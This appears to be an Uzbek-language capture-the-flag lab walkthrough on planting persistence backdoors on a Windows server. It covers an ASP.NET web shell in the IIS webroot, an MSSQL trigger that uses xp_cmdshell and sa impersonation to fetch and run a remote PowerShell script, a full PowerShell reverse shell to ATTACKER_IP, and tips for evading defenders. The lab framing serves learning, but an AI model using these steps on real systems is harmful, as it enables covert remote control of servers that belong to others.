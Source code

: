 ## 🔓 Web-serverga backdoor joylashtirish va undan foydalanish (uzb tarjima va izoh)

### 💥 Windows funksiyalaridan foydalanmasdan backdoor o‘rnatish

Agar siz Windows'ning o‘z ichki funktsiyalaridan foydalanishni istamasangiz, tizimda mavjud bo‘lgan boshqa xizmatlar (masalan, web-server yoki MSSQL) orqali ham backdoor (yashirin kirish nuqtasi) joylashtirish mumkin. Bunday xizmatlar orqali avtomatik kod ishga tushirishga ruxsat berilgan bo‘lsa, sizga kerakli narsani amalga oshirish mumkin.

---

## 🐚 Web Shell'dan foydalanish

Web-serverda yashirin kirish uchun eng oddiy yo‘llardan biri bu — **web shell** faylini server katalogiga yuklab qo‘yishdir.

### 📌 Amallar:

1. `shell.aspx` degan ASP.NET web shell faylini yuklab oling.

2. Faylni serverga yuboring va `C:\inetpub\wwwroot\` katalogiga joylashtiring:

   ```cmd
   C:\> move shell.aspx C:\inetpub\wwwroot\
   ```

3. Agar URL orqali `Permission Denied` xatosi chiqqan bo‘lsa, `icacls` buyrug‘i orqali unga **to‘liq ruxsatlar** berib qo‘ying:

   ```cmd
   C:\> icacls shell.aspx /grant Everyone:F
   ```

4. Endi brauzerda quyidagi havola orqali shell'ga murojaat qilishingiz mumkin:

   ```
   http://10.10.88.85/shell.aspx
   ```

### 🎯 Flag olish:

Shell orqali quyidagicha flag olishingiz kerak:

```
C:\flags\flag16.exe
```

🛡️ **Eslatma:** Web kataloglardagi fayl o‘zgarishlari **Blue Team (himoya jamoasi)** tomonidan kuzatiladi, shuning uchun bu usul uzoq muddat yashirin qola olmaydi.

---

## 🧬 MSSQL orqali backdoor o‘rnatish

### 🎯 Maqsad:

* MSSQL serverga maxsus **trigger** (tetik) yaratib, u orqali tizimda buyruqlarni ishga tushuradigan yashirin kanal yaratamiz.

---

### 🛠️ 1. `xp_cmdshell` ni yoqish:

1. `Microsoft SQL Server Management Studio 18` dasturini oching.
2. **Windows Authentication** orqali tizimga kiring (odatda Administrator).
3. **New Query** tugmasini bosib quyidagi buyruqlarni yuboring:

```sql
sp_configure 'Show Advanced Options', 1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
```

---

### 🔑 2. Foydalanuvchilarga `sa` foydalanuvchisini o‘zlashtirish huquqini berish

```sql
USE master
GRANT IMPERSONATE ON LOGIN::sa TO [Public];
```

Bu orqali har qanday foydalanuvchi `sa` huquqlari bilan buyruq bajarishi mumkin bo‘ladi.

---

### ⚙️ 3. Trigger yaratish

```sql
USE HRDB

CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```

* Bu trigger `Employees` jadvaliga har safar yangi ma’lumot kiritilganda ishlaydi.
* U Powershell orqali internetdan `.ps1` skriptni yuklab ishga tushiradi.

---

## 💣 `evilscript.ps1` fayl mazmuni (PowerShell Reverse Shell)

```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP", 4454);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};
$client.Close()
```

Bu skript:

* Foydalanuvchi (hujumchi) kompyuteriga teskari ulanish (reverse shell) qiladi.
* Hujumchi kompyuterda yozilgan har qanday buyruq serverda bajariladi.

---

### ⚙️ Hujumni boshqarish:

#### 🧪 1. HTTP serverni oching:

```bash
python3 -m http.server 8000
```

#### 🧪 2. Reverse shellni tinglang:

```bash
nc -lvp 4454
```

#### 🧪 3. Web ilovaga xodim qo‘shing (INSERT). Bu triggerni ishga tushiradi.

---

### 🎯 Flag olish:

Reverse shell orqali quyidagicha flagni bajaring:

```
C:\flags\flag17.exe
```

---

## 🧠 Yakuniy eslatmalar:

* **Web shell** — juda oddiy va samarali, ammo oson aniqlanadi.
* **SQL Trigger** — murakkabroq, ammo avtomatlashtirilgan va yashirinroq.
* Har ikki usul ham tizimda ruxsatlar noto‘g‘ri sozlangan bo‘lsa, oson ishlaydi.
* **Blue Team** harakatlaringizni aniqlamasligi uchun **kamroq shovqinli** va **kam o‘zgaruvchan** usullarni tanlang.
